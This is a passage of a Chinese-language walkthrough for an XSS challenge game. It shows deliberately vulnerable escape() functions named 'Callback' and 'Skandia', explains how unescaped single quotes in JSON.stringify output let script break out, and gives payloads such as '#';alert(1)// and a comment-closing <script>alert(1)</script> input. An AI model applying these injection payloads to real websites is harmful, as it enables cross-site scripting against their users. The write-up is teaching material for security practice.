 ```
Comment#--><script>alert(1)</script><!--
```

Output

```
<!----><script>alert(1)</script><!---->
```



## Callback

```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

`thing = s.split(/#/);`根据`#`对s进行切割

根据输入生成一个对象再用`JSON.stringify()`转化为一个 JSON字符串

例

输入`AiDAI#aidai`

输出`<script>AiDAI({"userdata":"aidai"})</script>`

`JSON.stringify()`会对一些字符进行转义，但它不会去转义`'`

所以可以利用单引号闭合，使alert(1)逃出来

Payload

```
'#';alert(1)//
```

Output

```
<script>'({"userdata":"';alert(1)//"})</script>
```



## Skandia

```javascript
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

